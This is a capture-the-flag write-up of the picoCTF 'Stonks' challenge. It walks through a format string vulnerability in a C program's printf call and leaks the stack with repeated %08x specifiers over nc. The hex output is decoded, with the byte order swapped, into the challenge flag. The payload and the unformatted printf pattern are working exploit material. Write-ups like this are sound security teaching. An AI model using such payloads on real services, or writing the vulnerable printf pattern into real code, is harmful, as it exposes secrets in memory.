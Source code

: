 # Stonks Write-up

This is my first format string vulnerability CTF task.

## The Challenge by MADSTACKS

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! `vuln.c nc` `mercury.picoctf.net 20195`.

## The Solution

We look at the `vuln.c` file. In the `buy_stonks()` function, we find a sketchy implementation of the `printf()` function. 
```C
char *user_buf = malloc(300 + 1);
printf("What is your API token?\n");
scanf("%300s", user_buf);
printf("Buying stonks with token:\n");
printf(user_buf);
```
If you know C, then you might have noticed that the formatting argument is missing. This kind of code-implementation of the `printf()` function is a known vulnerability called format string vulnerability. As we will see, we can print parts of the stack memory by inputting to `user_buf`, otherwise known as the API token. 

We check if this vulnerability is indeed present by connecting via `nc`:
```console
(base) stange@ericjoshua ~ % nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x
Buying stonks with token:
082c0430
```
The input `%08x` specifies to the `printf()` function to print 8 hexadecimal digits from the stack. Choosing 8 hexadecimal digits is optimal as computers usually have a word to be 4 bytes, in other words 8 hexadecimal digits. This is going to be crucial when we look at [endianness](https://en.wikipedia.org/wiki/Endianness). To find the flag, we will continue to look into `vuln.c`. The following code block is interesting:
```C
char api_buf[FLAG_BUFFER];
FILE *f = fopen("api","r");
if (!f) {
	printf("Flag file not found. Contact an admin.\n");
	exit(1);
}
fgets(api_buf, FLAG_BUFFER, f);
```
This is also present inside the `buy_stonks()` function and is present before asking for the API token. This suggests that the flag, stored in `api_buf`, can be found on the stack. We will try to print as much as possible from the stack and decode it afterwards.
```console
(base) stange@ericjoshua ~ % nc mercury.picoctf.net 20195
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x 
Buying stonks with token:
08cc23f0-0804b000-080489c3-f7f6cd80-ffffffff-00000001-08cc0160-f7f7a110-f7f6cdc7-00000000-08cc1180-00000001-08cc23d0-08cc23f0-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-35343036-64303664-ffc5007d-f7fa7af8-f7f7a440-f69aba00-00000001-00000000-f7e09ce9-f7f7b0c0-f7f6c5c0-f7f6c000-ffc51b38-f7dfa68d-f7f6c5c0-08048eca-ffc51b44-00000000-f7f8ef09-0804b000-f7f6c000
```
Decoding the hexadecimal above using [online tools](https://cyberchef.org/), we find the interesting text `ocip{FTC0l_I4_t5m_ll0m_y_y3n5406d06dÿÅ.}` which might have been influenced by the reversed endianness. After swapping, we get the flag `picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}`






